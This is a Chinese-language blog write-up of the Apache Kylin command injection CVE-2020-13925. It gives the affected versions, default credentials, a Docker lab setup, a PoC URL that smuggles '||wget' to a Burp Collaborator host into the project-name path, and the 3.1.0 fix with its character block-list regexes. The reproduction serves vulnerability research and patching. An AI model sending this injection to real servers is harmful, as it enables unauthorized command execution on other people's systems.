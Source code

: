 Title: CVE-2020-13925 Apache Kylin命令注入漏洞
Date: 2020-07-22 10:20
Category: 漏洞实践
Tags: Java,命令注入,漏洞
Slug: 
Authors: bit4woo
Summary: 

# CVE-2020-13925 Apache Kylin命令注入漏洞

## 漏洞简介


### 简要说明


Apache Kylin 是一个大数据的平台


### 影响版本


- 2.3.0, 2.3.1, 2.3.2,
- 2.4.0, 2.4.1,
- 2.5.0, 2.5.1, 2.5.2,
- 2.6.0, 2.6.1, 2.6.2, 2.6.3, 2.6.4, 2.6.5, 2.6.6,
- 3.0.0-alpha, 3.0.0-alpha2,3.0.0-beta, 3.0.0, 3.0.1 3.0.2



Users of all previous versions after 2.3 **should upgrade to 3.1.0**.  即修复版本: 3.1.0
### 漏洞利用条件


- 需要有账号能够登陆 WEB 系统。初始用户名和密码是 `ADMIN/KYLIN`
## 漏洞复现
### 环境搭建


参考 [https://github.com/apache/kylin](https://github.com/apache/kylin) 使用docker进行环境部署，修改其中的版本为3.0.1（存在漏洞的版本）。可以去除 【-m 8G \ 】它的作用是分配内存的大小。


然后访问 [http://host:7070/kylin/login](http://127.0.0.1:7070/kylin/login) 初始用户名和密码是 `ADMIN/KYLIN`。
```bash
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
    -m 8G \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
    
docker run -d \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
```


### 漏洞验证PoC


```python
原始请求：
http://120.76.179.151:7070/kylin/api/diag/project/learn_kylin/download
        
PoC请求，GET方法：
http://host:port/kylin/api/diag/project/%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c/download

即将项目名称“learn_kylin”替换为如下payload访问即可：
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||
```


### 复现步骤


访问 System-Configuration-Diagnosis。触发下载诊断信息的请求 [http://host:port/kylin/api/diag/project/learn_kylin/download](http://120.76.179.151:7070/kylin/api/diag/project/learn_kylin/download)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595237527265-6ab31fff-3427-4f92-8681-26b979bdb059.png#align=left&display=inline&height=855&margin=%5Bobject%20Object%5D&name=image.png&originHeight=855&originWidth=1635&size=159200&status=done&style=none&width=1635)
即将项目名称“learn_kylin”替换为如上payload访问即可。


![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595241435603-6f28849f-0dcf-40dc-82cc-4f61632adec6.png#align=left&display=inline&height=897&margin=%5Bobject%20Object%5D&name=image.png&originHeight=897&originWidth=3067&size=390464&status=done&style=none&width=3067)
## 漏洞分析


### 定位漏洞代码
[https://github.com/apache/kylin/tree/kylin-3.0.2/server-base](https://github.com/apache/kylin/tree/kylin-3.0.2/server-base)

漏洞代码位置：
[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595297956770-d8f291a5-f98e-494b-bf37-134694f465ca.png#align=left&display=inline&height=801&margin=%5Bobject%20Object%5D&name=image.png&originHeight=801&originWidth=1217&size=180439&status=done&style=none&width=1217)
[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595298124452-6521031c-098c-435c-a09b-0a8e0327d527.png#align=left&display=inline&height=803&margin=%5Bobject%20Object%5D&name=image.png&originHeight=803&originWidth=1328&size=212857&status=done&style=none&width=1328)
[https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java](https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java)
![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595298194052-8fb07702-c380-43cb-bf8e-1644a858c46f.png#align=left&display=inline&height=593&margin=%5Bobject%20Object%5D&name=image.png&originHeight=593&originWidth=1199&size=107450&status=done&style=none&width=1199)
**![image.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595298328411-56e2e7ca-90de-4cfc-acd1-fcef0ae5391f.png#align=left&display=inline&height=803&margin=%5Bobject%20Object%5D&name=image.png&originHeight=803&originWidth=1251&size=162633&status=done&style=none&width=1251)**

### 修复方案

对比3.0.2和3.1.0两个版本的代码：
src\main\java\org\apache\kylin\rest\controller\DiagnosisController.java
![Snipaste_2020-07-21_10-00-00.png](https://cdn.nlark.com/yuque/0/2020/png/1772529/1595296840495-653ae06a-2571-48cd-ae7e-92cff1304692.png#align=left&display=inline&height=238&margin=%5Bobject%20Object%5D&name=Snipaste_2020-07-21_10-00-00.png&originHeight=238&originWidth=1873&size=48968&status=done&style=none&width=1873)


过滤代码在kylin-kylin-3.1.0\kylin-kylin-3.1.0\core-common\src\main\java\org\apache\kylin\common\util\CliCommandExecutor.java中，采用了黑名单方式过滤。
```java

    public static final String COMMAND_BLOCK_LIST = "[ &`>|{}()$;\\#~!+*\\\\]+";
    public static final String COMMAND_WHITE_LIST = "[^\\w%,@/:=?.\"\\[\\]]";
    public static final String HIVE_BLOCK_LIST = "[ <>()$;\\-#!+*\"'/=%@]+";


    /**
     * <pre>
     * Check parameter for preventing command injection, replace illegal character into empty character.
     *
     * Note:
     * 1. Whitespace is also refused because parameter is a single word, should not contains it
     * 2. Some character may be illegal but still be accepted because commandParameter maybe a URI/path expression,
     *     you may check "Character part" in https://docs.oracle.com/javase/8/docs/api/java/net/URI.html,
     *     here is the character which is not banned.
     *
     *     1. dot .
     *     2. slash /
     *     3. colon :
     *     4. equal =
     *     5. ?
     *     6. @
     *     7. bracket []
     *     8. comma ,
     *     9. %
     * </pre>
     */
    public static String checkParameter(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_BLOCK_LIST);
    }

    public static String checkParameterWhiteList(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_WHITE_LIST);
    }

    public static String checkHiveProperty(String hiveProperty) {
        return checkParameter(hiveProperty, HIVE_BLOCK_LIST);
    }

    private static String checkParameter(String commandParameter, String rex) {
        String repaired = commandParameter.replaceAll(rex, "");
        if (repaired.length() != commandParameter.length()) {
            logger.warn("Detected illegal character in command {} by {} , replace it to {}.", commandParameter, rex, repaired);
        }
        return repaired;
    }
```


命令注入常用的连接符 ||  && 都被过滤了，这里甚至过滤了空格，找不到绕过的方法。
## 参考链接
[https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ](https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ)


